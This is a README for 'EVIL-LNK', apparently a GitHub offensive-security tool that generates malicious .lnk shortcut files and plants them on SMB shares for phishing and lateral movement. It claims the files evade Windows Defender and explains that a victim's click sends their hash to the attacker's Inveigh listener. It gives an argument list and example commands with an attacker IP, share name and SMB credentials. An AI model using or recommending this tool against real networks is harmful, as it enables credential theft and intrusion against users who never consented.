

## Generate malicious .lnk



#### EVIL-LNK generates and uploads malicious .lnk files to SMB shares for lateral movement

.lnk are not flagged as malicious by windows defender which make them a great way to phish users if you have wrtite access to a smb share and move laterally.
Simply run the script from a windows host and wait for a user to click the shortcut file. If LLMNBR poisoning is possible you will receive a hash on Inveigh.

```
positional arguments:
  attacker_ip           The IP address of the attacker.
  share_name            The SMB share name.
  username              The SMB username.
  password              The SMB password.
  server_ip             The IP address of the SMB server.

Options:
  -h, --help            show this help message and exit
  --domain DOMAIN       The SMB domain (optional).
  --file_name FILE_NAME
                        The name of the generated .lnk file (optional).
```

### Examples

```python3 main.py <attacker_ip> <share_name> <username> <password> <server_ip> [--domain DOMAIN] [--file_name FILE_NAME]```

```python3 main.py 192.168.1.100 myshare myuser mypass 192.168.1.10 --domain mydomain --file_name custom_filename```
